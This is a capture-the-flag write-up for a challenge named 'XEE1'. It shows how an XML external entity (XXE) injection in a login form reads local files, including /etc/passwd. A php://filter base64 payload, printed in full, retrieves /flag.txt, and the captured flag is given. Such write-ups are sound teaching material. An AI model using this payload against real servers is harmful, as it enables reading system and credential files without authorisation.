 # XEE1
> flag in flag.txt

## About the Challenge
We have been given a website that contains a login page

![preview](images/preview.png)

And if we check the HTTP request and response when entering the username and password

![http](images/http.png)


## How to Solve?
At first, Im using a `file` protocol to read `/flag.txt` file

![first_request](images/first_request.png)

But the output was `You can't read the flag`. Im very confused because my payload was working perfectly if I want to read another file (ex: /etc/passwd)

![testing](images/testing.png)

So I decided to use PHP wrapper to encoded the output with `base64` encoding. Here is the final payload

```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY ent SYSTEM "php://filter/read=convert.base64-encode/resource=/flag.txt"> ]>
<user>
    <username>&ent;</username>
    <password>test</password>
</user>
```

![flag](images/flag.png)

```
dead{n1ce_br0_XE3_3z_h3h3}
```